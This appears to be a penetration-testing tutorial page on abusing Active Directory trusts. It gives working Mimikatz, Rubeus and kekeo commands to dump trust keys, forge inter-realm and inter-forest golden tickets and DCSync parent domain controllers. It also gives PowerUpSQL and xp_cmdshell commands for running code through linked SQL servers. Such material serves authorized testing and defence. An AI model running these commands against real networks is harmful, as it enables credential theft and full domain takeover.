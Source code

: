 ```yaml
---
title: Cross Forest / Domain Attacks
category: Active Directory
order: 6
---
```


In this section we are going to abuse trusts between forests.

# Trust Key

Technically, when you use a trust, there is a communication between the domain controller of your domain and the domain controller of the target domain (or of an intermediary domain).

How communication is made varies depending of the protocol that is being used (which could be NTLM, Kerberos, etc), but in any case, the domain controllers needs to share a key to keep the communications secure. This key is known as the trust key and it's created when the trust is established.

When a trust is created, a trust account is created in the domain database as if it were an user (with the name finished in $). The trust key is then stored as if it was the password of the trust user (in the NT hash and Kerberos keys).

A trust ticket is a key which a DC of the other forest uses to decrypt the TGT presented by the attacker. That is the only check. We are going to execute a similar attack such as golden ticket but using the *trust ticket* instead of the _krbtgt_ hash.

To list the Trust tickets we can use mimikatz:

```powershell
Invoke-Mimikatz -Command '"lsadump::trust /patch"'
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\mcorp$"'
```
## Child to Parent using Trust Tickets

We can escalate between domains using the trust tickets. An **inter-realm TGT** can be forged:

```powershell
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:sub.corp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /sids:S-1-5-21-280534878-1496970234-700767426-519 /rc4:05749eb179dbf3d3445e0a49d6701578 /service:krbtgt /targe
t:corp.local /ticket:C:\temp\trust_forest_tkt.kirbi"'
```
* **Invoke-Mimikatz**

|                   **Parameter**                   |                 **Description**                |
|:-------------------------------------------------:|:----------------------------------------------:|
| /domain:sub.corp.local                            | Current Domain FQDN                            |
| /sid:S-1-5-21-268341927-4156873456-1784235843     | Current Domain SID                             |
| /sids:S-1-5-21-280534878-1496970234-700767426-519 | SID of Enterprise Admins group (Parent Domain) |
| /rc4:05749eb179dbf3d3445e0a49d6701578             | RC4 of the trust key (parent$)                 |
| /user:Administrator                               | User to impersonate                            |
| /service:krbtgt                                   | Target service in the parent domain            |
| /target:corp.local                                | Parent Domain FQDN                             |
| /tiket:C:\Windows\Temp\trust_tkt.kirbi            | File to store the ticket                       |


Once we have the inter-realm TGT ticket forged we can ask for a TGS on the parent domain. We can ask a TGS for LDAP on the parent DC.

* asktgs.exe (kekeo_old)
```
.\asktgs.exe ./trust_tkt.kirbi LDAP/corp-dc.corp.local
```

* Rubeus.exe
```
.\Rubeus.exe asktgs /ticket:trust_tkt.kirbi /dc:corp-dc.corp.local /service:LDAP/corp-dc.corp.local /ptt
```

Finally we can inject in on the current session:

```powershell
.\Rubeus.exe ptt /ticket:LDAP.mcorp-dc.moneycorp.local.kirbi
```

And execute a DCSync attack and Over-Pass-The-Hash to fully control the DC of the parent domain:

```powershell
Invoke-Mimikatz -Command '"lsadump::dcsync /user:mcorp\Administrator /domain:moneycorp.local"'
.\Rubeus.exe asktgt /domain:corp.local /user:Administrator /rc4:71d04f9d50ceb1f64de7a09f23e6dc4c /dc:corp-dc.moneycorp.local /ptt
Enter-PSSession -ComputerName corp-dc.moneycorp.local
```

## Across Forest using Trust Tickets

An **inter-forest TGT** can be forged:

```powershell
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:corp.local /sid:S-1-5-21-268341927-4156871508-1792461683 /rc4:cd3fb1b0b49c7a56d285fffdd1399231 /service:krbtgt /target:extcorp.local /ticket:C:\temp\trust_forest_tkt.kirbi"'
```

Now we can request a TGS for `cifs` service on the dc of the trusted forest.

```powershell
.\asktgs.exe c:\temp\trust_forest_tkt.kirbi CIFS/dc01.extcorp.local
```
And inject the ticket on the current session:

```powershell
.\kirbikator.exe lsa .\CIFS.dc01.extcorp.local.kirbi
```
> **Note**: We can not list all the file system of other forest. We can only list shared folders.

```
ls \\dc01.extcorp.local\share\
```
# Child to Parent using krbtgt hash

# Trust Abuse with MSSQL Server

MSSQL Servers are generally deployed in plenty windows domain. SQL Servers provide very good options for lateral movement as domain users can be mapped to dabase roles.

A fantastic tool to abuse MSSQL is `PowerUpSQLl`: 

* [https://github.com/NetSPI/PowerUpSQL](https://github.com/NetSPI/PowerUpSQL)
```powershell
Import-Module .\PowerUpSQL.psd1
```

> **Note**: Important! Write `Import-Module` and import which have **PSD1** extension.

We can discover SQL servers:

```powershell
Get-SQLInstanceDomain
```

We can check accessibility:

```powershell
Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -Verbose
```
Gather information:

```powershell
Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose
```

## Database Links

A database link allows a SQL Server to access external data sources like other SQL Servers and OLE DB data sources. In case of databases links between Microsoft SQL Servers, it is possible to execute stored procedures which means RCE.

Database link works even across forest trusts.

```powershell
Get-SQLServerLink -Instance mssql.corp.local -Verbose
```

So we can execute queries on the remote Server Link, see if this server has others links and above, instead of doing it manually that will be explained in a note, exists a script that crawls all the mssql server links.

```powershell
Get-SQLServerLinkCrawl -Instance mssql.corp.local -Verbose
```

> **Note**: Manual way:
>
> See if has a server link:
> `select * from master..sysservers`
>
> Openquery() function can be used to run quieries on a linked database:
> `select * from openquery('sql2.corp.local', 'select * from master..sysservers')`

To execute commands from MSSQL server we need to use `xp_cmdshell`. If `rpcout` is enabled `xp_cmdshell` can be enabled using:

```
EXECUTE('sp_configure "xp_cmdshell",1;reconfigure;') AT "other-sql"
```

And finally:

```powershell
Get-SQLServerLinkCrawl -Instance mssql.corp.local -Query "exec master..xp_cmdshell 'whoami'"
```

